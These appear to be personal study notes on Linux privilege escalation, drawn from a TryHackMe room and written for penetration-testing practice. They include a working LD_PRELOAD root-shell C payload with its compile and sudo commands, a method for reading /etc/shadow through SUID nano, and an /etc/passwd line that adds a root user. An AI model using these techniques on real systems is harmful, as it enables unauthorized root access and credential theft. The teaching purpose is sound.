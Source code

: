 # Privelege Escalation Notes

[Reference](https://tryhackme.com/room/linprivesc)

Enumeration is the first step you have to take once you gain access to any system. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level. As you will see, enumeration is as important during the post-compromise phase as it is before.

Enumeration checks (atleast):

    - hostname
    - uname -a
    - /proc/version
    - /etc/issue
    - ps [-A][axjf][aux]
    - env
    - sudo -l
    - ls
    - id
    - /etc/passwd
    - history
    - ifconfig
    - netstat [-a][-t][-u][-l][-s][-p][-i][-ano]
    - find [-name][-type][-perm][-user][-size][-time] :Find tools -> find / -name perl*|| find / -name python*|| find / -name gcc*
    - locate
    - grep

## Automated enumeration tools

These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.
These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

    - [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
    - [LinEnum](https://github.com/rebootuser/LinEnum)
    - [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
    - [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
    - [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

## Kernel Exploit

[Reference: Linux Privilege Escalation - Kernel Exploits](https://steflan-security.com/linux-privilege-escalation-kernel-exploits/)

The following command can be used to manually enumerate kernel info:

    uname -a ; lsb_release -a; cat /proc/version /etc/issue /etc/*-release; hostnamectl | grep Kernel

The Kernel exploit methodology is simple:

    1. Identify the kernel version
    2. Search and find an exploit code for the kernel version of the target system
    3. Run the exploit

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.

Search for the exploit can be done using Google for an existing exploit code, a [CVE database](https://www.linuxkernelcves.com/cves), exploit-db, searchsploit. Note: be extremely specific of the kernel version. Read the comments of the code carefully, some exploits might need further interaction. You can transfer the exploit code from your machine to the target system using the SimpleHTTPServer Python module and wget respectively.

Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

## Sudo

The sudo command, by default, allows you to run a program with root privileges.
Any user can check its current situation related to root privileges using the "sudo -l" command. [GTFObins](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

### Leverage application functions

    Some applications will not have a known exploit within this context.
    Example, for apache2 server, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (-f : specify an alternate ServerConfigFile).
    Loading the /etc/shadow file using this option will result in an error message that includes the first line of the /etc/shadow file.

### Leverage LD_PRELOAD

On some systems, you may see the LD_PRELOAD environment option.
LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

    Check for LD_PRELOAD (with the env_keep option)
    Write a simple C code compiled as a share object (.so extension) file
    Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }

The code can be saved & compiled using gcc into a shared object file using the following parameters(shell.c is the file name of the above .c file):

    gcc -fPIC -shared -o shell.so shell.c -nostartfiles

We can now use this shared object file when launching any program our user can run with sudo. In the example case, Apache2, find, or almost any of the programs we can run with sudo can be used. (i.e. found via the sudo -l command)

We need to run the program by specifying the LD_PRELOAD option, as follows;

    sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

## SUID

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
You will notice these files have an "s" bit set showing their special permission level.

List files that have SUID or SGID bits set:

    find / -type f -perm -04000 -ls 2>/dev/null

A good practice would be to compare executables on this list with [GTFOBins](https://gtfobins.github.io). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set.
GTFObins does not directly provide us with an easy win. Typical to real-life privilege escalation scenarios, we will need to find intermediate steps that will help us leverage whatever minuscule finding we have.
Let's consider the example: The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner's privilege.
Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the /etc/shadow file or adding our user to /etc/passwd.

### Option 1: Read /etc/shadow & Crack the password

We see that the nano text editor has the SUID bit set by running the find / -type f -perm -04000 -ls 2>/dev/null command.

    "nano /etc/shadow" will print the contents of the /etc/shadow file.

We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the /etc/shadow and /etc/passwd files.

### Option 2 : Add a new user that has root privileges

This would help us circumvent the tedious process of password cracking.
We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

    openssl passwd -1 -salt <salt-vale> <password>

- -1 > MD5-based password algorithm

- -salt val > Use provided salt

Since we used the MD5 hash with salt, the output would be something like:

    $1$<salt-value>$<some-hash>

This entire thing is the salted hash. Which can then be added into the /etc/passwd file. Thus, at the end of the file, we add:

    hackeruser:$1$<salt-value>$<some-hash>:0:0:root:/root:/bin/bash

- hackeruser > it is the username
- The entire salted hash has to be pasted here
- root:/bin/bash was used to get a root shell

Once our user is added (please note how root:/bin/bash was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.

## Capabilities
